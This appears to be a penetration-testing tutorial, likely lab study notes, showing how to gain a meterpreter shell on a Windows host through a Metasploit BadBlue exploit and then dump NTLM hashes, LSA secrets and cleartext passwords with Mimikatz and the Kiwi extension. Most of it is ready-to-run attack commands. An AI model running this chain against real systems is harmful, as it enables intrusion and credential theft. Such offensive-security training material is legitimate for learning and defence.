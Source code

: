 # C - Dumping Hashes with Mimikatz

### **Mimikatz**

* Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
* We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

> Note: Mimikatz requires elevated privileges in order to run correctly.

### **Practical Demonstration**

#### **Initial Access**

`nmap -sV $ip` - scan for vuln service.

```
# using metasploit to exploit the "BadBlue service"
search badblue
use exploit/windows/http/badblue_passthru
options
set RHOSTS $ip
run
# we get a meterpreter.
sysinfo
getuid
# migrate to lsass process to get NT AUTHORITY.
pgrep lsass  # migrate to a 64bit process in this case, the lsass process.
getuid # we have NT AUTHORITY.
```

#### Using Meterpreter Extension \[kiwi]

```bash
# after gaining administrative privileges.
# we can now use the kiwi extension
load kiwi
? # displays the kiwi help commands.
creds_all # dumps all credentials.
lsa_dump_sam #Dump NTLM hashes from the SAM memory.
lsa_dump_secrets #Dump secrets from LSA.
```

#### Using the actual  Mimikatz executable

```bash
# 1
# navigate to the C:\Temp directory from the meterprester session.
# kali already has the mimikatz file in it, so we can directly upload it to the vicim Temp dir.
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe #Upload x64 mimikatz executable onto the target system.

# 2
# open a cmd prompt session
shell
.\mimikatz.exe #Launch mimikatz within the target system.

# 3
# Check if current user has the privileges required to use mimikatz.
privilege::debug # if it tells you [Privilege '20' OK] then you are good to go.

# 4
lsadump::sam # Dump NTLM hashes and other info from the SAM memory.
lsadump::secrets # Dump secrets from the LSA.
sekurlsa::logonpasswords # Reveal clear-text passwords that the system might have stored.
# but the system has been configured correctly, we cant find any clear text password.

```


